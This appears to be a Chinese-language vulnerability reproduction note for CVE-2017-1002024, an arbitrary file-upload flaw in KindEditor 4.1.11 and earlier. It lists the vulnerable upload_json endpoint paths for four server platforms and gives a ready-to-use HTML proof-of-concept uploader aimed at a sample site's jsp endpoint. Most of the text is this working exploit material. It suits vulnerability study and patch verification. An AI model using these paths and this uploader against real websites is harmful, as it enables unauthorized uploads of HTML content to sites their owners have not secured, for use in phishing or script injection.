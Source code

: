 （CVE-2017-1002024）Kindeditor \<=4.1.11 上传漏洞
=================================================

一、漏洞简介
------------

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.11编辑器中

二、漏洞影响
------------

Kindeditor \<=4.1.11

三、复现过程
------------

> json文件地址

    /asp/upload_json.asp

    /asp.net/upload_json.ashx

    /jsp/upload_json.jsp

    /php/upload_json.php

> 上传路径

    kindeditor/asp/upload_json.asp?dir=file

    kindeditor/asp.net/upload_json.ashx?dir=file

    kindeditor/jsp/upload_json.jsp?dir=file

    kindeditor/php/upload_json.php?dir=file

> 查看版本信息

    http://www.0-sec.org/kindeditor//kindeditor.js

![](./.resource/(CVE-2017-1002024)Kindeditor<=4.1.11上传漏洞/media/rId24.jpg)

> 构造poc

    <html><head>
    <title>Uploader</title>
    <script src="http://www.0-sec.org/kindeditor//kindeditor.js"></script>
    <script>
    KindEditor.ready(function(K) {
    var uploadbutton = K.uploadbutton({
    button : K(‘#uploadButton‘)[0],
    fieldName : ‘imgFile‘,
    url : ‘http://www.0-sec.org/kindeditor/jsp/upload_json.jsp?dir=file‘,
    afterUpload : function(data) {
    if (data.error === 0) {
    var url = K.formatUrl(data.url, ‘absolute‘);
    K(‘#url‘).val(url);}
    },
    });
    uploadbutton.fileBox.change(function(e) {
    uploadbutton.submit();
    });
    });
    </script></head><body>
    <div>
    <input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />
    <input type="button" id="uploadButton" value="Upload" />
    </div>
    </body>
    </html>
